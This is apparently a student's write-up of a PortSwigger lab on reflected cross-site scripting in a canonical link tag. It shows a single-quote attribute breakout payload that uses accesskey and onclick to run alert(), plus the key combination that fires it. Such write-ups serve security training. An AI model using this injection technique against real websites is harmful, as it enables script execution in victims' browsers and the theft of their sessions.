 # Lab: Reflected XSS in canonical link tag
# https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

```bash
# Change this link
.web-security-academy.net
# into this:
.web-security-academy.net/?abc1234

# View page source:
<link rel="canonical" href='https://....web-security-academy.net/?abc1234'/>
```
```bash
# Change link
web-security-academy.net/?'onclick='alert()

<link rel="canonical" href='https://....web-security-academy.net/?'onclick='alert()'/>

# We used onclick but we can't physically click on it so we need to use access keys.
```

```bash
web-security-academy.net/?'accesskey='x'onclick='alert()

<link rel="canonical" href='https://....web-security-academy.net/?'accesskey='x'onclick='alert()

# If you press option(alt) + shift + x it might work for you.
# If it doesn't work try other accesskeys to see alert.
```
